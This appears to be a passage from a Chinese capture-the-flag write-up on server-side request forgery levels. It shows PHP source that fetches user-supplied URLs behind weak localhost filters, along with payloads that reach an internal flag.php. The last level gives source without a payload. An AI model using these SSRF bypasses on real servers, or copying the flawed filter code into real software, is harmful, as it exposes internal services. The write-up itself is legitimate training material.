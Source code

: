 payload

```
url=http://127.0.0.1/flag.php
```

# 352 过滤127.0.0

源代码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url = $_POST['url'];
$x = parse_url($url);
if ($x['scheme'] === 'http' || $x['scheme'] === 'https') {
    if (!preg_match('/localhost|127.0.0/')) {
        $ch = curl_init($url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $result = curl_exec($ch);
        curl_close($ch);
        echo($result);
    } else {
        die('hacker');
    }
} else {
    die('hacker');
}
```

payload

```
url=http://127.0.0.1/flag.php
```

# 353   过滤127.0

源码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url = $_POST['url'];
$x = parse_url($url);
if ($x['scheme'] === 'http' || $x['scheme'] === 'https') {
    if (!preg_match('/localhost|127\.0\.|\。/i', $url)) {
        $ch = curl_init($url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $result = curl_exec($ch);
        curl_close($ch);
        echo($result);
    } else {
        die('hacker');
    }
} else {
    die('hacker');
}
?> 
```
